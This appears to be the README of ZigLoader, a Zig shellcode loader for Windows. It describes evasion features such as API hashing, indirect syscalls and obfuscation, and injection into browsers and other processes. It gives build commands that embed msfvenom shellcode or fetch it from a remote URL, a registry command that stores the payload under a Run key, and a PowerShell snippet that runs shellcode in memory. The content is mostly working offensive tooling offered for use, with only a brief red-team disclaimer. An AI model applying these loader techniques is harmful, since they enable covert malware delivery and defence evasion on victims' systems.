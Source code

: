 # ZigLoader

A shellcode loader written in Zig.  
The loader injects the shellcode into a target process and executes it.

## Features

- Dynamic API resolution using hashing
- Indirect syscalls
- Shellcode obfuscation
- Flexible loading methods (embedded, download, registry)
- Various injection techniques
- sRDI support (build the loader itself as shellcode)

### Loading Methods

ZigLoader can load shellcode in the following ways:

- Embed in ZigLoader
- Download via HTTP
- Read from the Registry
- Read from the Environment Variable

### Injection Methods

- Classic (NtAllocateVirtualMemory + NtCreateThreadEx)
- Early Bird APC Injection
- Callback Execution
- Local Mapping Injection
- Remote Mapping Injection

## Build

You will need at least `zig v0.15.0+` to build ZigLoader. 

### Use Case 1. Embedded Shellcode Loader

This is the simplest usage mode.  
Specify a shellcode binary via a build option to embed and obfuscate it during the build.  
For example, generate shellcode with MsfVenom:

```sh
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o shellcode.bin
zig build -Dpayload=./shellcode.bin
```

After building, EXE, DLL, and shellcode files will be generated into the `zig-out/bin` directory.  
The embedded shellcode is automatically decrypted at runtime and injected into a target process.

### Use Case 2. Remote Shellcode Loader

To enable runtime downloading, specify the URL with the `-Dpayload_url` option.  
At runtime, the loader fetches the shellcode via **HTTP(S)**, deobfuscates it, and injects it into memory.

```sh
zig build -Dpayload=./shellcode.bin -Dpayload_url=https://your-server.com/obfuscated-shellcode.bin
```

This build will output an obfuscated version of the `shellcode.bin` in the `zig-out/payload` folder.  
You must host this file at the specified URL so the loader can retrieve it at runtime.  

Additionally, you can specify the following options:

- `-Dmethod=POST`
- `-Dheaders="Content-Type: application/json\r\nX-SECRET: mysecret666\r\n"`
- `-Ddata="{\"secret\":\"mysecret666\"}"`

### Use Case 3. Registry Shellcode Loader

Loads and executes the shellcode byte data stored in the registry in advance.  

First, build ZigLoader using the following command. If you specify `-Dpayload_reg_key` and `-Dpayload_reg_value`, the loader will be built in a mode that loads the payload from the specified path and value.

```sh
zig build -Dpayload=./shellcode.bin -Dpayload_reg_key="HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Explorer\\StartupApproved\\Run" -Dpayload_reg_value="MyPayload"
```

After building, the `obfuscated-shellcode.bin` file will be created in the `zig-out/payload` folder. This is an obfuscated version of the payload specified with the `-Dpayload` option during build.  
This obfuscated payload binary must already be stored in the target system's registry, so run the following command:

```powershell
# 1. Convert payload to Hex
xxd -p obfuscated-shellcode.bin | tr -d '\n'

# 2. In target machine, store the hex value to the specified registry key and value
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\StartupApproved\Run" /v "MyPayload" /t REG_BINARY /d <HEX_VALUE> /f
```

This allows the payload to be loaded and executed from that registry key when ZigLoader is run on the target machine.  

### Use Case 4. Environment Variable Shellcode Loader

Obtains the Base64-encoded shellcode that has been set in the environment variable in advance, decrypts it, and executes it.

```sh
zig build -Dpayload=./shellcode.bin -Dpayload_env=AppMetadata
```

### (Optional) Priority of Injection Methods

ZigLoader provides fail-safe attack attempts.  
Injection methods are attempted until successful, with the following priority by default:

1. Remote Mapping Injection
2. Local Mapping Injection
3. Callback Shellcode Execution
4. Early Bird APC Injection
5. Classic Injection (NtAllocateVirtualMemory + NtCreateThreadEx)

You can specify the `-Dinjection` option to change this setting. For example,

- `-Dinjection=classic` => Only executes Classic Injection
- `-Dinjection=earlybird,callback` => Only executes Early Bird and Callback
- `-Dinjection=remote_mapping,local_mapping` => Only executes Mapping Injections

### (Optional) Targeting Specific Processes

You can optionally specify target process names using the `-Dprocess` build option.
This accepts a comma-separated, case-insensitive list of process names:

```sh
zig build -Dpayload=./shellcode.bin -Dprocess=chrome.exe,notepad.exe
```

If this option is omitted, the following default process names will be used:
`chrome.exe,msedge.exe,firefox.exe,brave.exe,notepad.exe,conhost.exe`  

The behavior of this option depends on the selected injection technique (via `-Dinjection`):

- `classic`  
    Attempts to inject shellcode into a running instance of one of the specified processes.

- `earlybird`  
    Creates a new suspended process from the specified image, injects the shellcode, and resumes it via APC.  
    If multiple process names are specified, only the first one is used.

## Output Files

After building, the following files will be generated in the `zig-out/bin` directory:

- EXE: `x86.exe`, `x64.exe`, `aarch64.exe`
- DLL: `x86.dll`, `x64.dll`, `aarch64.dll`
- Shellcode: `x86.bin`, `x64.bin`, `aarch64.bin`

## Execution Examples

### 1. As Shellcode

The shellcode is built using **sRDI** from the DLL version.  
You can inject it into memory via **PowerShell** as follows (after **Base64-encoding** it with `base64 x64.bin -w 0`):

```powershell
$sc = [Convert]::FromBase64String("<BASE64_ENCODED_SHELLCODE>")
$size = $sc.Length
$ptr = [System.Runtime.InteropServices.Marshal]::AllocHGlobal($size)
[System.Runtime.InteropServices.Marshal]::Copy($sc, 0, $ptr, $size)
$oldProtect = 0
$VirtualProtect = (Add-Type -MemberDefinition @"
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@ -Name "Win32" -Namespace "Win32Functions" -PassThru)
$uptr = [UIntPtr]::op_Explicit($size)
$null = $VirtualProtect::VirtualProtect($ptr, $uptr, 0x40, [ref]$oldProtect)
$del = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($ptr, [type]::GetType("System.Action"))
$del.Invoke()
```

### 2. As DLL

Note: This is not a reflective DLL, so usage may be limited depending on the context.  
For example, you can execute it using `rundll32.exe`. The export function is named **"run"**.

```powershell
rundll32.exe C:\x64.dll,run
```

### 3. As EXE

The EXE file can be run directly:

```powershell
.\x64.exe
```

## Disclaimer

It is designed for red team exercises and malware analysis. Not for illegal use.
